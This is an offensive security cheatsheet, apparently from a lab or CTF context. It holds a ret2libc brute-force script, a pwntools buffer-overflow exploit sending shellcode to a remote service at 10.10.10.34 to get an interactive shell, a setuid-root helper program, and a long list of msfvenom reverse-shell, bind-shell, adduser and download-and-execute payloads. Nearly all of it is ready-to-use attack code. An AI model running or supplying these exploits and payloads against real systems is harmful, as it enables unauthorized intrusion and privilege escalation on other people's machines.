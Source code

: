 # Cheatsheet

## Exploit Development

###

Hexdump (python format)
```
hexdump -v -e '"\\""x" 1/1 "%02x" ""' example.exe
```

### Print hex encoded string in text
```
printf $(cat file.txt | tr -d '\n')
```

### Cross compile with - mingw32
```
i586-mingw32msvc-gcc a.c
wine a.exe
```

### Passing binary data as arguments
```
command $(python -c 'print ...')
```

### Passing binary data as standard input
```
python -c 'print ...' | command
```

### Use file as input and then read from standard input
```
cat file - | command
```
```
python -c 'print ...' | cat file - | command    
```

### Printing shell code
```
(Bash) echo -e '\x31\xc0\x50\x68\x2f...'
(Python) python -c 'print "\x31\xc0\x50\x68\x2f..."'
(Perl) perl -e 'print "\x31\xc0\x50\x68\x2f..."'
```

## ret2libc

- Find libc address: ​`ldd /usr/local/bin/backup`
- Find libc `system` function: ​`readelf -s /lib32/libc.so.6 | grep system`
- Find libc `exit` function: ​`readelf -s /lib32/libc.so.6 | grep exit`
- Find libc `/bin/sh` reference: ​`strings -a -t x /lib32/libc.so.6 | grep /bin/sh`


```
import struct, subprocess

libc = 0xf75e2000
sysOffset = 0x0003a940
sysAddress = libc + sysOffset
exitOffset = 0x0002e7b0
exitAddress = libc + exitOffset
binsh = libc + 0x0015900b

payload = "A" * 512
payload += struct.pack("<I", sysAddress)
payload += struct.pack("<I", exitAddress)
payload += struct.pack("<I", binsh)

attempts = 0

while True:
  attempts += 1
  print "Attempts: " + attempts
  subprocess.call(["/usr/local/bin/vulnerable-binary", "arg1", "arg2", payload])
```

## Network attack

```
from pwn import *

shellcode =
"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6\x31\xc9\x56\x5b\x6a\x3f\x58\xc
d\x80\x41\x80\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6\x56\x68\x2f\x2f\x7
3\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

payload = "A"*28 + p32(0xffffd630) + shellcode
r = remote('10.10.10.34', 7411)
print r.recv(1024)

r.sendline('USER admin')
print r.recv(1024)

r.sendline('PASS ' + payload)
r.interactive()
```

## Simple SUID Binary

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
  setuid(0);
  system("id");
  return 0;
}

```

## Msfvenum

### Payloads
```
cmd/unix/bind_awk
cmd/unix/bind_busybox_telnetd
cmd/unix/bind_inetd
cmd/unix/bind_lua
cmd/unix/bind_netcat
cmd/unix/bind_netcat_gaping
cmd/unix/bind_netcat_gaping_ipv6
cmd/unix/bind_nodejs
cmd/unix/bind_perl
cmd/unix/bind_perl_ipv6
cmd/unix/bind_r
cmd/unix/bind_ruby
cmd/unix/bind_ruby_ipv6
cmd/unix/bind_socat_udp
cmd/unix/bind_stub
cmd/unix/bind_zsh
cmd/unix/generic
cmd/unix/reverse
cmd/unix/reverse_awk
cmd/unix/reverse_bash
cmd/unix/reverse_bash_telnet_ssl
cmd/unix/reverse_ksh
cmd/unix/reverse_lua
cmd/unix/reverse_ncat_ssl
cmd/unix/reverse_netcat
cmd/unix/reverse_netcat_gaping
cmd/unix/reverse_nodejs
cmd/unix/reverse_openssl
cmd/unix/reverse_perl
cmd/unix/reverse_perl_ssl
cmd/unix/reverse_php_ssl
cmd/unix/reverse_python
cmd/unix/reverse_python_ssl
cmd/unix/reverse_r
cmd/unix/reverse_ruby
cmd/unix/reverse_ruby_ssl
cmd/unix/reverse_socat_udp
cmd/unix/reverse_ssl_double_telnet
cmd/unix/reverse_stub
cmd/unix/reverse_zsh
cmd/windows/adduser
cmd/windows/generic
cmd/windows/powershell_bind_tcp
cmd/windows/powershell_reverse_tcp
cmd/windows/reverse_powershell
firefox/exec
firefox/shell_bind_tcp
firefox/shell_reverse_tcp
generic/shell_bind_tcp
generic/shell_reverse_tcp
java/shell/bind_tcp
java/shell/reverse_tcp
java/shell_reverse_tcp
linux/x64/exec
linux/x64/shell/bind_tcp
linux/x64/shell/reverse_tcp
linux/x64/shell_bind_tcp
linux/x64/shell_reverse_tcp
linux/x86/adduser
linux/x86/chmod
linux/x86/exec
linux/x86/shell/bind_tcp
linux/x86/shell/reverse_tcp
linux/x86/shell_bind_tcp
linux/x86/shell_reverse_tcp
multi/meterpreter/reverse_http
multi/meterpreter/reverse_https
nodejs/shell_bind_tcp
nodejs/shell_reverse_tcp
osx/armle/shell/bind_tcp
osx/armle/shell/reverse_tcp
osx/armle/shell_bind_tcp
osx/armle/shell_reverse_tcp
osx/ppc/shell/bind_tcp
osx/ppc/shell/reverse_tcp
osx/ppc/shell_bind_tcp
osx/ppc/shell_reverse_tcp
osx/x64/exec
osx/x64/shell_bind_tcp
osx/x64/shell_reverse_tcp
osx/x86/exec
osx/x86/shell_bind_tcp
osx/x86/shell_reverse_tcp
php/bind_php
php/download_exec
php/exec
php/reverse_perl
php/reverse_php
php/shell_findsock
python/shell_bind_tcp
python/shell_reverse_tcp
r/shell_bind_tcp
r/shell_reverse_tcp
ruby/shell_bind_tcp
ruby/shell_reverse_tcp
windows/adduser
windows/dllinject/bind_tcp
windows/dllinject/reverse_tcp
windows/download_exec
windows/exec
windows/powershell_bind_tcp
windows/powershell_reverse_tcp
windows/shell/bind_tcp
windows/shell/reverse_tcp
windows/shell_bind_tcp
windows/shell_reverse_tcp
windows/upexec/bind_tcp
windows/upexec/reverse_tcp
windows/x64/exec
windows/x64/powershell_bind_tcp
windows/x64/powershell_reverse_tcp
windows/x64/shell/bind_tcp
windows/x64/shell/reverse_tcp
windows/x64/shell_bind_tcp
windows/x64/shell_reverse_tcp
```
